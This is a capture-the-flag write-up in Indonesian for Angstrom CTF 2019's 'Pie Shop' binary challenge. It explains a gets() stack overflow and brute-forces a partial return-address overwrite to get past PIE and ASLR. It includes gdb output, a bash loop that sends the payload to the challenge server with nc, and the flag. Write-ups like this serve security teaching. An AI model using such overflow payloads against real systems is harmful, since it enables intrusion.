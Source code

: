 # __Angstrom CTF 2019__ 
## _Pie Shop_

## Information
**Category:** | **Points:** | **Writeup Author**
--- | --- | ---
Binary | 100 | l0l

**Description:** 

> 100 points 49 solves
>
> nc shell.actf.co 19306
>
> Author: Aplet123
>
> Given : [binary](./pie_shop) and [source](./pie_shop.c)

**Hints**
> What does it mean if PIE is enabled on a binary?
>
> 20 bits is not that much.

### Pie Shop
```
pie_shop: ELF 64-bit LSB pie executable, x86-64, version 1 (SYSV), dynamically
linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 3.2.0, BuildID[sha1]=9318df53faeaad841153110c8ded995df882498b, not stripped

CANARY    : disabled
FORTIFY   : disabled
NX        : ENABLED
PIE       : ENABLED
RELRO     : Partial
```
Cek di server, ASLR enabled.

```
gdb-peda$ info func
...
0x00000000000011a9  flag
0x00000000000011bc  get_pie
0x0000000000001262  main
...
```

### Pie Shop Source Code
```c
void flag() {
	system("/bin/cat flag.txt");
}

void get_pie() {
...
	char pie[50];
	gets(pie);
...
}

int main() {
...
	get_pie();
...
}
```

### Solve
Disini proteksi PIE ditambah dengan ASLR membuat kita tidak bisa secara langsung menentukan address fungsi `flag`. Ditambah setiap input kita ditambah `NULL BYTE` di akhirnya.

Sebelum input : 
```
gdb-peda$ x/2gx $rsp
0x7fffffffe4a0: 0x00000000000000a0      0x00007ffff7f9b5c0
```

Setelah input 'AAAABBBBC':
```
gdb-peda$ x/2gx $rsp
0x7fffffffe4a0: 0x4242424241414141      0x00007ffff7f90043
```

Terlihat ada null byte yang ditambahkan setelah 0x43 ('C'). Karena kita tahu bahwa address akhir dari fungsi flag adalah 0x1a9, kita bisa bruteforce return address, mengganti 3 byte terakhirnya dengan 0x00`x`1a9 (x bisa berapapun) dan menunggu sampai address kita benar. 0x00 di awal karena input kita ditambah dengan null byte.

Padding 0x40+8bytes.

### Payload
```bash
while true
do
python2 -c "print 'A'*0x40+'B'*8+'\xa9\x11'" | nc shell.actf.co 19306 | grep actf
done
```

### Flag 
actf{a_different_kind_of_pie}
